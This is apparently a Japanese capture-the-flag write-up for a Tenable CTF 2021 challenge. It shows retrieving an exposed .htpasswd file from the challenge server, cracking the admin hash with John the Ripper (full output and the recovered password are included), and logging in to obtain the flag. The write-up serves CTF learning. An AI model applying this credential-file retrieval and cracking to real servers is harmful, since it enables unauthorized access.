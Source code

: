 # Protected Directory

Find the flag in the protected directory.
http://167.71.246.232/
---

下記にアクセスするとBasic認証を求められる
> http://167.71.246.232:8080/admin/

下記にアクセスするとadminのパスワードがある
> http://167.71.246.232/admin/.htpasswd  
> admin:$apr1$1U8G15kK$tr9xPqBn68moYoH4atbg20

ハッシュ化してあるので復号化をする必要がある
パスワードクラッカーのJohn the Ripperというツールを使う

~~~
$ john htpasswd.txt 
Loaded 1 password hash (md5crypt [MD5 32/64 X2])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:13 3/3 0g/s 20353p/s 20353c/s 20353C/s 021684..021683
0g 0:00:00:15 3/3 0g/s 20364p/s 20364c/s 20364C/s barcide..barcidy
0g 0:00:00:17 3/3 0g/s 20396p/s 20396c/s 20396C/s abric..abrat
0g 0:00:00:22 3/3 0g/s 20439p/s 20439c/s 20439C/s bermero..bermena
0g 0:00:00:28 3/3 0g/s 20480p/s 20480c/s 20480C/s jasmot..jasmet
0g 0:00:00:29 3/3 0g/s 20444p/s 20444c/s 20444C/s kusto..kust1
0g 0:00:00:30 3/3 0g/s 20448p/s 20448c/s 20448C/s 057747..057745
0g 0:00:00:31 3/3 0g/s 20450p/s 20450c/s 20450C/s 181123..181121
0g 0:00:00:32 3/3 0g/s 20455p/s 20455c/s 20455C/s 064322..064326
0g 0:00:00:33 3/3 0g/s 20460p/s 20460c/s 20460C/s ciahoe..ciahor
0g 0:00:00:34 3/3 0g/s 20459p/s 20459c/s 20459C/s boremma..boremmm
0g 0:00:00:35 3/3 0g/s 20468p/s 20468c/s 20468C/s 214515..214512
0g 0:00:00:37 3/3 0g/s 20483p/s 20483c/s 20483C/s lamyl..lamyn
0g 0:00:00:38 3/3 0g/s 20485p/s 20485c/s 20485C/s stumn1..stumns
0g 0:00:00:39 3/3 0g/s 20489p/s 20489c/s 20489C/s bront1..bronti
0g 0:00:00:40 3/3 0g/s 20496p/s 20496c/s 20496C/s amtpi..amtpq
0g 0:00:00:41 3/3 0g/s 20501p/s 20501c/s 20501C/s anggota..anggote
0g 0:00:00:42 3/3 0g/s 20505p/s 20505c/s 20505C/s magsy6..mags99
0g 0:00:00:43 3/3 0g/s 20509p/s 20509c/s 20509C/s bol103..bol102
0g 0:00:00:44 3/3 0g/s 20517p/s 20517c/s 20517C/s 216763..216764
0g 0:00:00:45 3/3 0g/s 20516p/s 20516c/s 20516C/s 147129..147146
0g 0:00:00:46 3/3 0g/s 20523p/s 20523c/s 20523C/s 040338..040361
0g 0:00:00:47 3/3 0g/s 20530p/s 20530c/s 20530C/s jm0752..jm0748
alesh16          (admin)
1g 0:00:00:50 3/3 0.01979g/s 20542p/s 20542c/s 20542C/s alesh16..alesh09
Use the "--show" option to display all of the cracked passwords reliably
Session completed

alesh16          (admin)
~~~

ログイン
> admin/alesh16
![aa](https://github.com/xn16h7/CTF/blob/master/Tenable%20CTF%202021/img/%E2%91%A7.png)

## flag{cracked_the_password} 
